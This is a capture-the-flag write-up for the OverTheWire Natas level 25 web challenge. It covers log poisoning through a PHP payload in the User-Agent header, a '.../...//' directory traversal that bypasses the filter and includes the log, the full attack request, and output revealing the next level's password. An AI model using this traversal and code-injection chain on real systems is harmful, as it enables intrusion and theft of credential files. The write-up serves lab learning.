 natas25.natas.labs.overthewire.org/?lang=.../...//language/de

got stuck at this point. Read up on a write up.

Rhe pages echo's 3 values. $**GREETING, $\*\*MSG and \$\_\_FOOTER.

```php
echo "<h2>$__GREETING</h2>";
echo "<p align=\"justify\">$__MSG";
echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
```

Log function adds text from UserAgent to file if its triggered.  
It gets triggered if a directory traversal is found. This means if we add PHP code to the UserAgent we can write arbitrary code to logfiles in /var/www/natas/natas25/logs/natas25_SESSIONID.log.

```php
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n";
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

If we overwrite either $**GREETING, $\*\*MSG or \$\_\_FOOTER by passing PHP code in the UserAgent we can get output back from our arbitrary code.

```text
User-Agent: <?php global $__MSG; global $__FOOTER; global $__GREETING; $__MSG=file_get_contents('/etc/natas_webpass/natas26'); $__GREETING=$__MSG; $__FOOTER=$__MSG; ?>
```

Since the safeinclude does not stop the request we can first trigger a log with a `../` and then add the `.../...//` for actual directory traversal.

So if we combine these 2

```text
GET /?lang=../.../...//logs/natas25_0fopbbtghrlijbe403knpoa5v5.log HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <?php global $__MSG; global $__FOOTER; global $__GREETING; $__MSG=file_get_contents('/etc/natas_webpass/natas26'); $__GREETING=$__MSG; $__FOOTER=$__MSG; ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=0fopbbtghrlijbe403knpoa5v5
Upgrade-Insecure-Requests: 1
```

```text
[23.09.2019 09::29:37]  "Directory traversal attempt! fixing request."
[23.09.2019 09::30:35]  "Directory traversal attempt! fixing request."
<h2>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
</h2><p align="justify">oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
<div align="right"><h6>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```
